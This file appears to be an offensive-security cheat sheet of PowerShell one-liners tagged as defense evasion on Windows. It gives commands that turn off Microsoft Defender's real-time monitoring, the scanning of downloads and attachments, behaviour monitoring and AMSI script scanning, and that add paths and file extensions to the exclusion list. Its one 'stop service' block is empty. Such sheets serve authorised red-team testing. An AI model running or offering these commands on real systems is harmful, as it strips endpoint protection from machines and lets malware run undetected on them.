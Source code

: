 # windows
% windows, defense evasion
#plateform/windows #target/local #cat/DEFENSE-EVASION


# powershell
% windows, defense evasion

#plateform/windows #target/local #cat/DEFENSE-EVASION #tag/powershell 

## Defender - stop service
```powershell
```

## Defender - disable All

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true; Set-MpPreference -DisableIOAVProtection $true; Set-MPPreference -DisableBehaviourMonitoring $true; Set-MpPreference -DisableScriptScanning $true
```

## Defender - disable Real Time Monitoring 

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

## Defender - Disable scanning for downloaded or attachments

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

## Defender - Disable behaviour monitoring

```powershell
Set-MPPreference -DisableBehaviourMonitoring $true
```

## Defender - Disable AMSI

```powershell
Set-MpPreference -DisableScriptScanning $true
```


## Defender - Add path to exclusions

```powershell
$p = "<path|c:\temp>" ; Add-MpPreference -ExclusionPath $p -AttackSurfaceReductionOnlyExclusions $p
```


## Defender - Add extension to exclusions

```powershell
Set-MpPreference -ExclusionExtension "<extension|ps1>"
```
